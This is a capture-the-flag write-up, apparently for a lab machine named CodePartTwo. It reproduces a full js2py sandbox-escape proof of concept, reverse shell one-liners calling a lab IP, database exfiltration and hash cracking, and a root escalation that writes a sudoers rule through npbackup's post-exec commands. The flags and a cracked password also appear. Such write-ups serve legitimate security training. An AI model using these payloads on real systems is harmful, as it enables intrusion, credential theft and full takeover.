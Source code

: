 ```yaml
---
layout: default
title: CodePartTwo
---
```


## TL;DR

Sandbox escaping from `js2py` using known exploit, and achieving shell. Crack password from `users.db` to get `marco`'s password. using `npbackup` to achieve root shell.

### Recon

First we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap results](image.png)

So, we got port `8000` opened and running http server on it, *Gunicorn* server, version 20.0.4
```bash
PORT     STATE SERVICE VERSION
8000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Welcome to CodePartTwo
```

### Exploit CVE-2024-28397-js2py-Sandbox-Escape

When accessing the website in port `8000`, we can see the source code, and also that we can execute commands in the /dashboard tab.
![execute commands](image-1.png)

In the source code, in `app/app.py`, we can see those lines:
```py
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

So, it uses `js2py.eval_js` to execute commands. After googling, i found that we can achieve RCE, and this github repo jumped to me [https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/).

We can use the PoC it supplies:
```js
// [+] command goes here:
let cmd = "head -n 1 /etc/passwd; calc; gnome-calculator; kcalc; "
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

We need to change the command, I tried to execute this `sh -i >& /dev/tcp/10.10.14.168/770 0>&1` to achieve remote shell, but it didn't work.
So, i used other payload from [https://www.revshells.com/](https://www.revshells.com/), I tried with `mkfifo`, and it worked.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.168 770 >/tmp/f
```

So, let's paste those commands, to achieve easier shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Get db file and analyze it

We can see the user `marco`, but when trying to access his `/home` directory, we get access denied, because we only have privileges of `app` user.

Okay, after some searching, i came to the file `users.db` inside `/app/instance`, and decided to pull it out, using simple http server.
on remote server:
```bash
python3 -m http.server 1337
```
on my machine:
```bash
curl http://$target:1337/users.db -o users.db
```
![get users.db](image-2.png)

We start with `file` to check what is the file, 
```bash
┌──(agonen㉿kali)-[~/htb/CodePartTwo]
└─$ file users.db          
users.db: SQLite 3.x database, last written using SQLite version 3031001, file counter 4, database pages 4, cookie 0x2, schema 4, UTF-8, version-valid-for 4
```
Okay, this is sqlite3 database file, let's open it: 
```bash
sqlite3 users.db
```

We can use `.tables` to show available tables, and then select all data from `user` table, using `select * from user;`

![sqlite3](image-3.png)

```
sqlite> select * from user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
```

using [https://crackstation.net/](https://crackstation.net/) we managed to crack the password of marco, which is `sweetangelbabylove`.
![crack station](image-4.png)

I tried to `ssh` to the machine, using the user `marco` and it's password:
```bash
ssh marco@$target
```

![ssh to marco](image-5.png)

Now, let's grab the user flag:
```bash
marco@codeparttwo:~$ cat /home/marco/user.txt
4cbd9ff095cbd1daeaaf6994bc239f46
```

### Escalate Privilege

We start with `sudo -l`, to view what marco can do:
```bash
marco@codeparttwo:~$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

we can see he can execute `/usr/local/bin/npbackup-cli` as root. In the `npbackup.conf` we can see this line:
```
post_exec_commands: []
```
maybe we can add our own commands, and then when we will do backup, it'll run those commands as an admin.

Let's try to add these commands, the idea is to give marco the ability to do anything:
```bash
echo 'marco ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers.d/marco; chmod 440 /etc/sudoers.d/marco
```

![added post commands](image-7.png)

And now, we'll execute backup, `-c` to supply the conf file, `-b` to say we want backup, and `-f` to force it, even if there is nothing new to backup.
```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/npbackup.conf -b -f
```

Now we can check again using `sudo -l`:
```bash
marco@codeparttwo:~$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
    (ALL) NOPASSWD: ALL
```

And we got it! we can summon shell or simply reading the root flag:
```
marco@codeparttwo:~$ sudo cat /root/root.txt
6b753ed66a2fbfd92fe5e291ccd3e1e2
```

![get root flag](image-6.png)

**User Flag:*****`4cbd9ff095cbd1daeaaf6994bc239f46`***

**Root Flag:*****`6b753ed66a2fbfd92fe5e291ccd3e1e2`***
